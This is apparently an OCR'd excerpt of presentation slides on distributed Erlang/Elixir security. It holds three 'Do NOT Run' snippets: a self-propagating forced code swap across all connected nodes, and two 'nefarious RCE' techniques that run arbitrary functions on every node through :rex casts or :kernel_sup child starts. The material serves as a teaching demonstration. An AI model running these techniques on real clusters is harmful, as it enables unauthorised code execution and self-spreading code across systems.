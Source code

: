 section: 1
---

### Do NOT Run: Continuous Forced Code Swap

```elixir
c("foo.ex", ".") # locally modified module
{module, bytecode, filename} = :code.get_object_code(Foo)
f = fn f ->
  delay = :rand.uniform(5000)
  Process.sleep(delay)
  {:module, _} = :code.load_binary(module, filename, bytecode)
  :erpc.multicast(Node.list(), Kernel, :apply, [f, [f]])
end; f.(f)
```

<v-clicks>

<div>

<br>

### Do NOT Run: Nefarious RCE Without Spawn Request

```elixir
evil_multicast = fn nodes, fun ->
  cast = {:"$gen_cast", {:cast, Kernel, :apply, [fun, []], Process.group_leader()}}
  Enum.each(nodes, &send({:rex, &1}, cast))
end
evil_multicast.(Node.list(), fn ->
  IO.puts("nefarious remote code execution on #{node()}")
end)
```

</div>

</v-clicks>

---
section: 1
---

### Do NOT Run: Nefarious RCE Without Spawn Request or `:rex`

```elixir
evil_multicast = fn nodes, fun ->
  gl = Process.group_leader()
  glfun = fn -> Process.group_leader(self(), gl); fun.() end
  child_spec = %{id: make_ref(), start: {Kernel, :apply, [glfun, []]}, restart: :temporary}
  Enum.each(nodes, &Supervisor.start_child({:kernel_sup, &1}, child_spec))
end
evil_multicast.(Node.list(), fn ->
  IO.puts("nefarious remote code execution on #{node()}")
end)
```
